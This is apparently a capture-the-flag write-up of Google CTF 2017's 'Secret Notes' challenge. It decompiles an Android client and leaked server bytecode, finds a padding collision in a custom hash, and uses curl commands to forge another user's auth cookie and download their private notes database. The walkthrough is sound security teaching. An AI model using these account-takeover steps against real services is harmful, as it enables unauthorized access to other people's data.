


# [Google CTF 2017](https://capturetheflag.withgoogle.com) : Secret Notes

**Category:** Miscellaneous
**Points:** 180 (dynamic)
**Solves:** 61
**Difficulty:** Medium
**Description:**

> YASCNSS (Yet another secure cloud notes storage solution).
> 
> Hint: pyc
> 
> Challenge running at https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/
> 
> * [NotesApp.apk](./NotesApp.apk)

## writeup

The challenge server URL seems to be a simple web interface
(labelled "MemoEye Backup"), the attached `.apk` is probably
a client for the service. Maybe getting unauthorized access
somehow to a specific account leaks confidential information
(e.g. the flag).

The challenge had been solved in the great team
[OpenToAll](https://ctftime.org/team/9135).
The team finished 30th in the competition.

The key step for solving this challenge was found by
one of our team members, [vakzz](https://wbowling.info/).

### exploring the challenge

Opening the challenge URL shows a simple registration form:



Registering gives some kind of access token:



The access token seems to be formatted as `aaa-bbb` where
`aaa` is the account username (hex encoded), `bbb` is probably
some hash value.

### getting API endpoints

The client app `NotesApp.apk` should contain API endpoint URLs
for interacting with the server. Let us try to extract them.

After decompiling with
[jadx - Dex to Java decompiler](https://github.com/skylot/jadx),
browsing the source code quickly draws attention to
method `downloadDb` in class `MainActivity`:

```java
public class MainActivity extends Activity {

    ...

    public void downloadDb() {
        final MainActivity parent = this;
        Volley.newRequestQueue(this).add(new StringRequest(0, getString(R.string.host_url) + "/private", new Listener<String>() {
            public void onResponse(String response) {
                try {
                    OutputStream outWriter = new FileOutputStream(new File("/data/data/com.google.notesapp/databases/notes.db"));
                    outWriter.write(Base64.decode(response.getBytes(), 0));
                    outWriter.flush();
                    outWriter.close();
                    parent.populateList();
                    Toast.makeText(MainActivity.this, "DB downloaded!!!", 0).show();
                } catch (Exception e) {
                    Log.e("Mine", e.getStackTrace().toString());
                }
            }
        }, new ErrorListener() {
            public void onErrorResponse(VolleyError error) {
                Log.d("Mine", error.toString());
            }
        }) {
            public Map<String, String> getHeaders() {
                SharedPreferences prefs = MainActivity.this.getSharedPreferences(MainActivity.this.getString(R.string.saved_auth), 0);
                Map<String, String> header = new HashMap();
                header.put("cookie", "auth=" + prefs.getString("auth", ""));
                return header;
            }
        });
    }

    ...
}
```

So in order to get the db stored on the server, the URL `/private`
should be requested, authenticated by the cookie `auth`.

Note, that `LoginActivity.register()` uses the URL endpoint `/register`
with POST parameter `username` (as hex encoded string).
This API call returns the `aaa-bbb` format access token (if success,
username must be unique!).

### information leak: server side code

Let us now explore the HTTP headers:

```
$ curl https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/ -I
HTTP/2 200 
x-served-by: index.py
date: Sun, 25 Jun 2017 12:12:41 GMT
expires: Sun, 25 Jun 2017 12:22:41 GMT
etag: "HRNRyw"
x-cloud-trace-context: b816262e0f5a9cffbfbc8296c9694ddc
content-type: text/html
server: Google Frontend
cache-control: public, max-age=600
content-length: 507
age: 3
```

Note the `x-served-by: index.py` header. This may mean that
the service engine is a Python script called `index.py`.
If there is a Python script, there may be `.pyc` compiled
Python code as well (in particular, that we have the hint above ;) ).

```
$ wget https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/index.pyc
--2017-06-25 14:16:42--  https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/index.pyc
Resolving notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com... 216.239.38.21, 216.239.32.21, 216.239.34.21, ...
Connecting to notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com|216.239.38.21|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-python-code]
Saving to: 'index.pyc'

index.pyc                    [ <=>                            ]   5.77K  --.-KB/s    in 0.002s  

2017-06-25 14:16:42 (3.45 MB/s) - 'index.pyc' saved [5911]
```

Great! We have the compiled Python bytecode of the server side code.
It would be much more better to have the source, not just the compiled
bytecode.

### decompiling Python bytecode

Decompiling is not difficult using e.g.
[pycdc](https://github.com/zrax/pycdc):

```
$ git clone https://github.com/zrax/pycdc
Cloning into 'pycdc'...
remote: Counting objects: 1185, done.
remote: Total 1185 (delta 0), reused 0 (delta 0), pack-reused 1185
Receiving objects: 100% (1185/1185), 305.48 KiB | 581.00 KiB/s, done.
Resolving deltas: 100% (713/713), done.
$ cd pycdc
$ cmake .
...
$ make
...
$ cd ..
$ ./pycdc/pycdc index.pyc > index.py
```

Source `index.py` is now available:
```python
# Source Generated with Decompyle++
# File: index.pyc (Python 2.7)

import os
import re
import sys
from hasher import ZXHash
import webapp2
import logging
import secrets
from google.appengine.ext import ndb
hexre = re.compile('^[a-fA-F0-9]+$')
pathre = re.compile('^[\\w_\\-/\\.]+$')

class PrivateNote(ndb.Model):
    content = ndb.StringProperty()
    
    def get_by_user(cls, user):
        cls.query().filter(cls.user == user).get()

    get_by_user = classmethod(get_by_user)
    
    def get_by_id(identifier):
        key = ndb.Key(PrivateNote, identifier)
        return key.get()

    get_by_id = staticmethod(get_by_id)


class Utils(object):
    
    def reply(response, code, msg, mime = 'text/html'):
        response.status = code
        response.headers.add('X-Served-By', 'index.py')
        response.content_type = mime
        response.write(msg)

    reply = staticmethod(reply)
    
    def parse_urlform(form, delim = ';'):
        data = form.split(delim)
        results = dict()
        for datum in data:
            
            try:
                (key, value) = datum.split('=')
                results[key.strip()] = value.strip()
            continue
            continue
            continue

        
        return results

    parse_urlform = staticmethod(parse_urlform)
    
    def get_user(headers, hasher):
        results = Utils.parse_urlform(headers['cookie'])
        
        try:
            if results['auth']:
                (user, hmac) = results['auth'].split('-')
                if hexre.match(user) and hexre.match(hmac) and hasher.hash(user.strip()) == hmac.strip():
                    return (user.strip(), hmac.strip())
        except:
            pass

        return (None, None)

    get_user = staticmethod(get_user)


class HealthCheckHandler(webapp2.RequestHandler):
    
    def get(self):
        self.response.status = 200


class ValidateHandler(webapp2.RequestHandler):
    
    def get(self):
        (user, _) = Utils.get_user(self.request.headers, hasher)
        if not user:
            return Utils.reply(self.response, 401, 'Bad Authentication')
        return None.reply(self.response, 200, user)


class PrivateNote(ndb.Model):
    content = ndb.TextProperty()
    
    def get_by_user(cls, user):
        cls.query().filter(cls.user == user).get()

    get_by_user = classmethod(get_by_user)
    
    def get_by_id(identifier):
        key = ndb.Key(PrivateNote, identifier)
        return key.get()

    get_by_id = staticmethod(get_by_id)


class RegisterHandler(webapp2.RequestHandler):
    
    def post(self):
        data = Utils.parse_urlform(self.request.body, '&')
        value = data['username']
        logging.warning('value: [' + str(value) + ']')
        if len(value) > 64:
            return Utils.reply(self.response, 400, 'Limit Username to 32 Characters')
        if None and hexre.match(value):
            note = PrivateNote.get_by_id(value)
            logging.warning('note: ' + str(note))
            if note:
                return Utils.reply(self.response, 403, 'User already Exists')
            hashed = None.hash(value)
            self.response.status = 200
            self.response.headers.add('X-Served-By', 'index.py')
            self.response.headers.add('Content-Type', 'text/plain')
            self.response.headers.add('Set-Cookie', 'auth=' + value + '-' + hashed)
            self.response.write(value + '-' + hashed)
            PrivateNote(id = value, content = '').put()
            return None
        logging.warning('Bad request? ' + str(value))
        return Utils.reply(self.response, 400, 'Bad Request!')


class PrivateNoteHandler(webapp2.RequestHandler):
    
    def get(self):
        (user, _) = Utils.get_user(self.request.headers, hasher)
        if user:
            note = PrivateNote.get_by_id(user)
            if note:
                return Utils.reply(self.response, 200, note.content, 'application/octet-stream')
            return None.reply(self.response, 404, 'File Not Found')
        return Utils.reply(self.response, 401, 'Bad Authentication')

    
    def post(self):
        (user, _) = Utils.get_user(self.request.headers, hasher)
        if user:
            if user in locked:
                return Utils.reply(self.response, 403, 'User is Locked')
            note = None.get_by_id(user)
            if not note:
                note = PrivateNote(id = user)
            note.content = self.request.body
            note.put()
            return Utils.reply(self.response, 200, 'Success')
        return None.reply(self.response, 401, 'Bad Authentication')


(key1, key2, db) = secrets.get()
locked_id = '436f7267316c3076657239393c332121'
locked = list()
locked.append(locked_id)
hasher = ZXHash(key1.encode('hex'), key2)
note = PrivateNote.get_by_id(locked_id)
if not note:
    note = PrivateNote(id = locked_id, content = db)
else:
    note.content = db
note.put()
```

The `locked_id` should be the name of the user who
owns the sensitive db (it is `Corg1l0ver99<3!!` hex decoded).

In order to authenticate as `Corg1l0ver99<3!!`, the hash
value must be known. It is calculated by `hasher.ZXHash`.
The class `ZXHash` is initialized with two secret keys,
then the method `ZXHash.hash` seems to calculate
the hash value from the username.

So the challenge is to get the hash value of
`Corg1l0ver99<3!!` somehow. Btw, if we try to register
as `Corg1l0ver99<3!!`, we could get the hash:

```
$ curl https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/register -XPOST -d 'username=436f7267316c3076657239393c332121' 
User already Exists
```

Of course the user exists, and we can not register and
can not get the hash value. Yet. :)

### vulnerable hasher function

Looking at `index.py`, it imports `ZXHash` as
`from hasher import ZXHash`. Maybe `hasher.py`
is available in the webroot:

```
$ wget https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/hasher.py
--2017-06-25 15:03:14--  https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/hasher.py
Resolving notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com... 216.239.34.21, 216.239.36.21, 216.239.38.21, ...
Connecting to notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com|216.239.34.21|:443... connected.
HTTP request sent, awaiting response... 404 Not Found
2017-06-25 15:03:15 ERROR 404: Not Found.
```

404, but do not give it up ;) :
```
$ wget https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/hasher.pyc
--2017-06-25 15:03:42--  https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/hasher.pyc
Resolving notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com... 216.239.32.21, 216.239.34.21, 216.239.36.21, ...
Connecting to notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com|216.239.32.21|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-python-code]
Saving to: 'hasher.pyc'

hasher.pyc                   [ <=>                            ]   1.67K  --.-KB/s    in 0s      

2017-06-25 15:03:42 (42.2 MB/s) - 'hasher.pyc' saved [1708]
```

Nice, we have the compiled bytecode. Decompiling:
```
$ ./pycdc/pycdc hasher.pyc > hasher.py
```

The source `hasher.py`:
```python
# Source Generated with Decompyle++
# File: hasher.pyc (Python 2.7)

import sys
from binascii import unhexlify, hexlify
from hashlib import md5

def string_to_int(string):
    out = 0
    for c in string:
        out <<= 8
        out |= ord(c)
    
    return out


def int_to_string(integer):
    out = ''
    while integer > 0:
        out = chr(integer & 255) + out
        integer >>= 8
    return out


class ZXHash:
    key1 = None
    key2 = None
    
    def __init__(self, key1, key2):
        self.key1 = key1
        self.key2 = key2

    
    def hash(self, inp):
        string = self.key1 + inp
        string = string + (64 - len(string) % 64) * '0'
        value = int(string, 16)
        s = 0
        while value > 0:
            s = s ^ value & pow(2, 256) - 1
            value = value >> 256
        b4 = s & pow(2, 64) - 1
        s = s >> 64
        b3 = s & pow(2, 64) - 1
        s = s >> 64
        b2 = s & pow(2, 64) - 1
        s = s >> 64
        b1 = s & pow(2, 64) - 1
        hsh = md5(int_to_string(b4)).digest()[:8]
        m = string_to_int(hsh)
        b3 = b3 % m
        e = pow(self.key2, 128 + b3, m)
        return hex((b1 ^ b2 ^ e) % m)[2:-1]

```

The `ZXHash.hash` function has a serious collision
vulnerability in the padding (which was found by
[vakzz](https://wbowling.info/)):

```python
string = string + (64 - len(string) % 64) * '0'
```

This means that the hash value of
`436f7267316c3076657239393c332121` (length 32)
is exactly the same as the hash value of
`"436f7267316c3076657239393c332121" + "00"*i`
where `0<i<=16`.

### getting the auth hash and the private db

So if we try to register as (probably still unregistered
users) `436f7267316c3076657239393c33212100`
or `436f7267316c3076657239393c3321210000` (etc.), we shall
have the same hash value as the registered
`436f7267316c3076657239393c332121`. ;)

```
$ curl https:/txzzohwiznk.web.ctfcompetition.com/register -XPOST -d 'username=436f7267316c3076657239393c332121000000000000000000000'
436f7267316c3076657239393c332121000000000000000000000-32e77228f277ba31
```

Great, the hash value of user `Corg1l0ver99<3!!`
leaked: `32e77228f277ba31`. Now getting the db is just a GET
request to the appropriate API endpoint:

```
$ curl https://notes-server-m8tv5txzzohwiznk.web.ctfcompetition.com/private -b 'auth=436f7267316c3076657239393c332121-32e77228f277ba31' | base64 -d > notes.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 60867  100 60867    0     0   184k      0 --:--:-- --:--:-- --:--:--  186k
$ file notes.db 
notes.db: SQLite 3.x database, user version 6, last written using SQLite version 3008002
```

Nice, the private `notes.db` file had been stolen.

### getting the flag from the db

Now getting the flag is straightforward:

```
$ sqlite3 notes.db 
SQLite version 3.17.0 2017-02-13 16:02:40
Enter ".help" for usage hints.
sqlite> .tables
Diff              FLAG              Notes           
DiffSet           NoteSet           android_metadata
sqlite> select * from flag;
ctf{with_crypt0_d0nt_ro11_with_it}
```

